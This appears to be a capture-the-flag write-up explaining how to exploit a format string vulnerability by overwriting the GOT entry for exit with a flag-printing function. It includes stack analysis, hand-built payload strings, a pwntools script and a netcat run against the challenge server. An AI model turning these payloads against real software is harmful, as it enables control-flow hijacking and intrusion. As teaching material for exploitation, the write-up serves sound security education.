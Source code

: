 # Write-up

# ![](/assets/problem-statement.png)

---

Exploit a format string vulnerability

Flag: **gigem{F0RM@1NG\_1S\_H4RD}**

## Analysis

Suppose we run  the program with the string `AAAAAAAAAAAAAA`

When the program is on `printf`,

![](/assets/at-printf.png)

The stack looks like:

```
BFFFEDC0  BFFFEDD0  MEMORY:BFFFEDD0  <--- ESP (Pointer to our string)
BFFFEDC4  00000002  MEMORY:00000002  Dword 1
BFFFEDC8  00000000  MEMORY:00000000  Dword 2
BFFFEDCC  00000000  MEMORY:00000000  Dword 3
BFFFEDD0  41414141  MEMORY:41414141  <--- Our entered string
BFFFEDD4  41414141  MEMORY:41414141
BFFFEDD8  41414141  MEMORY:41414141
BFFFEDDC  00004141  MEMORY:00004141
```

* The top of the stack contains the pointer \(address\) to our entered string.
* After that there are 3 dwords \(12 bytes\) and then our string begins.

Thus when exploiting, our entered string can be considered as the 4th parameter to printf.

The function which prints the flag is located at `080485AB`. It is not called anywhere by the program. We have to somehow redirect the execution flow to there so that it prints our flag.

```nasm
.text:080485AB public print_flag
.text:080485AB print_flag proc near
.text:080485AB
.text:080485AB var_D= byte ptr -0Dh
.text:080485AB fp= dword ptr -0Ch
.text:080485AB
.text:080485AB push    ebp
.text:080485AC mov     ebp, esp
.text:080485AE sub     esp, 18h
.text:080485B1 sub     esp, 0Ch
.text:080485B4 push    offset s                        ; "This function has been deprecated"
.text:080485B9 call    _puts
.text:080485BE add     esp, 10h
.text:080485C1 sub     esp, 8
.text:080485C4 push    offset modes                    ; "r"
.text:080485C9 push    offset filename                 ; "flag.txt"
.text:080485CE call    _fopen
```

The Global Offset Table looks like:

```
.got.plt:0804A00C 64 A0 04 08 off_804A00C dd offset printf ; DATA XREF: _printfr
.got.plt:0804A010 68 A0 04 08 off_804A010 dd offset gets ; DATA XREF: _getsr
.got.plt:0804A014 6C A0 04 08 off_804A014 dd offset _IO_getc ; DATA XREF: __IO_getcr
.got.plt:0804A018 70 A0 04 08 off_804A018 dd offset puts ; DATA XREF: _putsr
.got.plt:0804A01C 74 A0 04 08 off_804A01C dd offset exit ; DATA XREF: _exitr
.got.plt:0804A020 78 A0 04 08 off_804A020 dd offset __libc_start_main
```

Later in the program after `printf` returns `exit` is called.  
If we modify the address of `exit` in the GOT with that of `print_flag`, it would be executed and we would get our flag.

The entry of `exit` in the GOT is at `0804A01C` and it contains the bytes `74 A0 04 08`.  
The address of `print_flag` in little endian byte order is `AB 85 04 08`.  
Hence we would only need to write the two bytes `AB 85` , as the remaining two are already properly set up.

Summarizing,

Write`0xAB`  \(171\) to `0804A01C`

Write `0x85` \(133\) to `0804A01D`

Since 133 &lt; 171, we can write 133 at `0804A01D` followed by 171 at `0804A01C`.  
\(The reverse is also possible where we have to use wrap around. More on this next\).

#### Building the exploit string

Our exploit string will start with the two addresses in little endian byte order.

```
    -------------8 bytes------------
    |               |              |
    |  1st address  | 2nd address  |
    |               |              |
    \x1d\xa0\x04\x08\x1c\xa0\x04\x08
```

This takes up 8 bytes.

The string is located at an offset of 12 bytes \(3 dwords\) from the pointer to itself \(See above\).  
To reach the start of the string on the stack we need to consume these 3 dwords.  
The format string that can be used is` %08x%08x%08x
`

The exploit string generated till this point is 

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%08x
```

When this is passed to `printf`, the number of bytes it will display = 4 + 4 + 8 + 8 + 8 = 24

To reach 133, we still need to print `133 - 24 = 109` more bytes. We can append this 109 bytes to get:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%08xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Alternatively, we can make the last `%08x` to display 109 bytes using space padding:

```
\x1d\xa0\x04\x08\x1c\xa0\x04\x08%08x%08x%109x
```



## Using pwntools \(automated\)

#### Generate the exploit

First parameter \(4\) indicates that the string is the 4th parameter.  
See the [pwntools docs](http://python3-pwntools.readthedocs.io/en/latest/fmtstr.html#pwnlib.fmtstr.fmtstr_payload) for more info.

```py
from pwnlib.fmtstr import fmtstr_payload
open('exploit', 'w').write(fmtstr_payload(4, {0x0804a01c: 0x080485ab}, write_size='byte'))
```

#### Profit :\)

```bash
$ nc pwn.ctf.tamu.edu 4323 < exploit
Enter a word to be echoed:
����                       This function has been deprecated
gigem{F0RM@1NG_1S_H4RD}
```




